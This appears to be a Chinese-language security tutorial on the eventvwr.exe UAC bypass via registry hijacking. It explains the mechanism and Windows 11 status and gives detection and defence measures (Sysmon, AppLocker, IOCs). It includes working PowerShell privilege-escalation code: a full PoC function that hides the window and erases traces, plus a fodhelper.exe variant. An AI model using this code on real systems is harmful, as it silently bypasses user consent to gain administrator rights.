

在 Windows 作業系統中，UAC 是一項用來防止未經授權的系統變更中重要的安全機制，  
但後來安全研究人員也發現了很多繞過 UAC 的技術，  
其中 eventvwr.exe 是一個經典的例子  
今天我們要來一起看看這個技術的原理實作方式在 Windows 11 上的現況，以及相應的防禦策略

## 什麼是 UAC？

* * *

UAC (User Account Control) 是 Windows Vista 後引入的安全功能，主要功能大概是這些：

*   防止惡意程式在沒有管理員權限的情況下對系統進行變更
*   當程式需要管理員權限時，會彈出提示視窗請求使用者確認
*   即使使用管理員帳戶登入，預設也是以標準權限執行程式

### UAC 等級設定

```powershell
# 檢查當前 UAC 等級
Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System -Name ConsentPromptBehaviorAdmin

# UAC 等級說明
# 0 = 永不通知（關閉 UAC）
# 1 = 僅在程式嘗試變更電腦時通知（不變暗桌面）
# 2 = 總是通知
# 5 = 預設 - 僅在程式嘗試變更電腦時通知（變暗桌面）

```

## eventvwr.exe 簡介

Event Viewer (eventvwr.exe) 是 Windows 內建的事件檢視器，用來查看系統安全性和應用程式記錄這個程式有幾個特點：

1.  **自動提權**：eventvwr.exe 會自動以高權限執行，不會觸發 UAC 提示
2.  **白名單程式**：因為是 Windows 系統程式，被列入 UAC 白名單
3.  **註冊表查詢**：執行時會查詢特定的註冊表項目

## 攻擊原理

* * *

eventvwr.exe UAC 繞過的核心原理是利用了 Windows 的幾個特性：

### 1\. Auto-Elevate 機制

某些 Windows 系統程式如果被標記為 "auto-elevate"，就可以在不顯示 UAC 提示的情況下獲得管理員權限eventvwr.exe 就是其中一個例子

### 2\. 註冊表劫持

當 eventvwr.exe 啟動時，會嘗試開啟 MMC (Microsoft Management Console) 來顯示事件記錄

過程中他會查詢這些註冊表路徑：

```
HKEY_CURRENT_USER\Software\Classes\mscfile\shell\open\command
HKEY_LOCAL_MACHINE\Software\Classes\mscfile\shell\open\command

```

### 3\. HKCU vs HKLM 優先權

Windows 在查詢註冊表時，會先檢查 HKEY\_CURRENT\_USER (HKCU)，然後才是 HKEY\_LOCAL\_MACHINE (HKLM)

**因為 HKCU 可以被當前使用者修改，我們可以在這裡植入惡意程式路徑**

## 攻擊步驟

* * *

### Step 1: 創建註冊表結構

首先，我們需要在 HKCU 下創建必要的註冊表結構：

```powershell
New-Item -Path "HKCU:\Software\Classes\mscfile\shell\open\command" -Force

```

### Step 2: 設置惡意程式路徑

將預設值設置為我們要執行的程式：

```powershell
Set-ItemProperty -Path "HKCU:\Software\Classes\mscfile\shell\open\command" -Name "(Default)" -Value "C:\Windows\System32\cmd.exe"

```

### Step 3: 設置 DelegateExecute

要記得把 DelegateExecute 設為空字串：

```powershell
Set-ItemProperty -Path "HKCU:\Software\Classes\mscfile\shell\open\command" -Name "DelegateExecute" -Value ""

```

### Step 4: 執行 eventvwr.exe

當執行 eventvwr.exe 時，它會讀取我們設置的註冊表值：

```powershell
Start-Process "eventvwr.exe"

```

## POC

* * *

### PowerShell 版本

#### 實作內容

```powershell
function Invoke-EventVwrBypass {
    param(
        [Parameter(Mandatory=$true)]
        [string]$Command
    )
    
    $regPath = "HKCU:\Software\Classes\mscfile\shell\open\command"
    
    New-Item -Path $regPath -Force | Out-Null
    Set-ItemProperty -Path $regPath -Name "(Default)" -Value $Command -Force
    Set-ItemProperty -Path $regPath -Name "DelegateExecute" -Value "" -Force
    
    Start-Process "eventvwr.exe" -WindowStyle Hidden
    Start-Sleep -Seconds 3
    
    Remove-Item -Path "HKCU:\Software\Classes\mscfile" -Recurse -Force
}

Invoke-EventVwrBypass -Command "cmd.exe /k whoami /priv"

```

#### 程式說明

**函數參數定義**

*   `$Command`：必要參數，指定要執行的命令路徑

**註冊表路徑設定**

*   使用 `HKCU:\Software\Classes\mscfile\shell\open\command` 作為劫持路徑
*   HKCU 路徑可被當前使用者修改，不需要管理員權限

**註冊表創建與設定**

*   `New-Item -Force` 強制創建整個路徑結構，包含所有必要的父級目錄
*   `(Default)` 值設定為要執行的命令，這是 eventvwr.exe 會讀取並執行的值
*   `DelegateExecute` 必須設為空字串，否則 Windows 會使用 COM 物件而非我們的命令

**觸發執行**

*   使用 `Start-Process` 啟動 eventvwr.exe
*   `-WindowStyle Hidden` 參數隱藏視窗
*   eventvwr.exe 會以高權限自動啟動（auto-elevate）並讀取我們的註冊表設定

**清理作業**

*   等待 3 秒確保命令已執行
*   使用 `-Recurse` 參數完整移除 mscfile

## 變種技術與演進

* * *

### 1\. MSC 檔案直接執行

在測試中有發現，雖然 eventvwr.exe 已被修掉了，但直接執行 MSC 檔案還是可以觸發註冊表劫持：

```powershell
# eventvwr.msc 變種
Start-Process "eventvwr.msc"  # 仍會讀取劫持的註冊表

```

### 2\. 其他 Auto-Elevate 程式

類似的技術可應用於其他 auto-elevate 程式：

```powershell
# fodhelper.exe (已經被 patch 掉了, Defender 關閉還是可以觸發管理員權限)
$regPath = "HKCU:\Software\Classes\ms-settings\shell\open\command"
New-Item -Path $regPath -Force | Out-Null
Set-ItemProperty -Path $regPath -Name "(Default)" -Value "cmd.exe"
Set-ItemProperty -Path $regPath -Name "DelegateExecute" -Value ""
Start-Process "fodhelper.exe"

```



### 3\. Windows 11 的現況

在 Windows 11 Build 26100 的測試中：

*   **eventvwr.exe**：已完全修補，不再讀取劫持的註冊表
*   **eventvwr.msc**：可執行劫持的程式，但無權限提升
*   **fodhelper.exe**：可用，但會被 Windows Defender 偵測

## 偵測＆防禦方法

* * *

### 1\. 監控註冊表活動

監控對以下註冊表路徑的修改：

*   `HKCU\Software\Classes\mscfile`
*   `HKCU\Software\Classes\ms-settings`
*   其他已知的 UAC 繞過相關路徑

### 2\. 應用程式控制

使用 AppLocker 或 Windows Defender Application Control (WDAC) 限制可執行的程式

```powershell
# AppLocker
New-AppLockerPolicy -RuleType Exe -User Everyone -Action Deny -Path "C:\*\*.exe"

```

### 3\. 提高 UAC 等級

將 UAC 設置為最高等級，要求所有程式都需要管理員確認：

```powershell
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" -Name "ConsentPromptBehaviorAdmin" -Value 2

```

### 4\. Sysmon 監控

配置 Sysmon 監控相關事件：

```xml
<Sysmon schemaversion="4.22">
  <EventFiltering>
    <RuleGroup name="UAC Bypass Detection">
      <RegistryEvent onmatch="include">
        <TargetObject condition="contains">Software\Classes\mscfile</TargetObject>
      </RegistryEvent>
      <ProcessCreate onmatch="include">
        <Image condition="end with">eventvwr.exe</Image>
        <ParentImage condition="end with">eventvwr.exe</ParentImage>
      </ProcessCreate>
    </RuleGroup>
  </EventFiltering>
</Sysmon>

```

### 5\. PowerShell 日誌記錄

啟用 PowerShell 腳本區塊日誌記錄：

```powershell
# 啟用 PowerShell 日誌
Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging" -Name "EnableScriptBlockLogging" -Value 1

```

## 檢測指標 (IOCs)

* * *

### 註冊表 IOCs

*   `HKCU\Software\Classes\mscfile\shell\open\command`
*   異常的 DelegateExecute 空值設置
*   短時間內註冊表的創建和刪除模式

### 行為 IOCs

*   eventvwr.exe 後立即出現非預期的子程序
*   eventvwr.exe 執行但沒有實際打開事件檢視器視窗
*   異常的權限提升行為

## 參考資源

* * *

*   [Original Research by enigma0x3](https://enigma0x3.net/2016/08/15/fileless-uac-bypass-using-eventvwr-exe-and-registry-hijacking/)
*   [UACMe Project - Comprehensive UAC Bypass Collection](https://github.com/hfiref0x/UACME)
*   [MITRE ATT&CK - T1548.002](https://attack.mitre.org/techniques/T1548/002/)
*   [Windows Internals, Part 1](https://docs.microsoft.com/en-us/sysinternals/resources/windows-internals)
*   [LOLBAS Project](https://lolbas-project.github.io/)